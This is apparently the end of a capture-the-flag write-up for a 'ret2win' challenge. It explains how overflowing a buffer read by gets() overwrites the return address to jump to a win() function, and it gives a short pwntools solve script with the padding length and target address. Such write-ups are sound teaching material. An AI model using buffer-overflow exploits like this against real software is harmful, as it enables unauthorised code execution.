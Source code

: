 When we provide the payload to the vulnerable gets function, it will overflow the buffer and overwrites the return address on the stack with the address we want to use in win(). When the main function returns, it will return directly to the adress we provided, which then executes and prints the flag to stdout.

This is the final solve script:
```py
from pwn import *

p = process("./ret2win")

win = 0x4011d1
p.recvuntil(b"data: ")
p.sendline(b"A"*104+p64(win))
p.interactive()
```

